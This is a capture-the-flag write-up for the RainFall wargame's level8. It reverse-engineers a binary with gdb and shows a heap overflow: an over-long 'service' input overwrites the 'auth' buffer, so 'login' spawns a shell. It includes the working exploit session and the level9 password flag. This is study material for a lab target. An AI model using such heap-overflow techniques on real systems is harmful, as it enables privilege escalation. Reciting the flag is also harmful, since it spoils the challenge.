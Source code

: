 # Level8

## Objective

The goal of Level 9 is to escalate from `level8` to `level9` by abusing how the `level8` binary manages heap allocations. By carefully using the available commands (`auth`, `reset`, `service`, and `login`), we can trigger the program to call `system("/bin/sh")` and gain a shell.

---

## Step 1: Examine the Binary

After switching to `level8`
Running the binary:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
hello
(nil), (nil)
```

when we use ltrace we can see a printf()
```bash
printf(%p, %p\n, (nil), (nil)(nil), (nil)) = 14;
```

Input is read with `fgets()`.

then we can try to use get variables,

```bash
(gdb) info variables
All defined variables:
Non-debugging symbols:

0x08049aac  auth
0x08049ab0  service

```
Here we can see that there's two variables and theirs adresses. 
The printf  prints two pointers `(auth, service)`, both initially `nil`.
they're read by fgets and stocked in locol memory at 0x20%esp

---

## Step 2: Reverse Engineer the Commands

Disassembly of `main()` reveals 4 comparaisons to adresses that can be read like this (this is the first one) :

```bash
0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)


```
<+87><+91>The part of the main says that 0x20(%esp) refers to fgets() (stdin), then this address is copied in EDX
<+93>After that we load 0x8048819 (using gdb x/s we read `auth` for this address) in EAX,
<+98>ECX is set to 5 (its the number max of caracter comparisons).
<+103><+105> setting registers for cmpsb, ESI is the entry, EDI is the auth string.
<+107> Is similar to strncmp() function, it comp byte by byte the pointed string ESI (input user) and the EDI one ("auth")

Its done for four string and each on them has functionsstarting if the comparison is good.

* `auth <data>` → calls `malloc(4)` and `strcpy()` into the global `auth` pointer.
> Here an object is created and stockes the stdin 
* `reset` → frees the `auth` pointer.
* `service <data>` → calls `strdup()` and copies into the global `service` pointer.
* `login` → if `auth[32] != 0`, it calls `system("/bin/sh")`. Otherwise, it calls `fwrite()`.
> Checks is there's somthing at the ofset, if so it runs the exec syscall.

Thus, the game plan is to get `auth[32]` set to something non-zero.

---

## Step 3: Heap Behavior

Heap allocations are sequential in memory. Testing shows:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Here `auth` is at `0x804a008` and `service` is exactly 16 bytes later. With padding, we can arrange things so that writing into `service` overflows into `auth[32]`.

---

## Step 4: Exploit Strategy

**SolutionSingle `service` overflow:**

* Create `auth` → allocates 4 bytes.
* Create `service` with a payload long enough to cover the 16-byte padding and reach `auth+32`.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
serviceabcdefgehijklmno
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

**End of Level8 Walkthrough**

